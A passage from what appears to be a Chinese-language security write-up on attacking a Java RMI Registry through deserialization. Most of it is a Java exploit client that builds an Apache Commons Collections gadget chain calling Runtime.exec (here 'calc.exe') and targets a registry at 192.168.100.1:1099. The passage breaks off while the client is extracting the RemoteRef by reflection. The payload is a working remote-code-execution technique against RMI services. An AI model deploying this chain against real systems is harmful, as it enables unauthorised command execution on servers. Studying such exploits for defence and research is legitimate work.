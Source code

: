 invoke 后面的代码都是读取 Registry 返回的对象

大致的思路就是通过反射拿到 ref operations 这几个属性, 然后通过 writeObject 写入 payload, 最后调用 invoke 发送数据

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ObjectOutput;
import java.io.Serializable;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.rmi.server.RemoteRef;
import java.util.HashMap;
import java.util.Map;


public class Client {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        Registry registry = LocateRegistry.getRegistry("192.168.100.1", 1099);

        Field refField = registry.getClass().getSuperclass().getSuperclass().getDeclaredField("ref");
        refField.setAccessible(true);
        RemoteRef ref = (RemoteRef) refField.get(registry);

```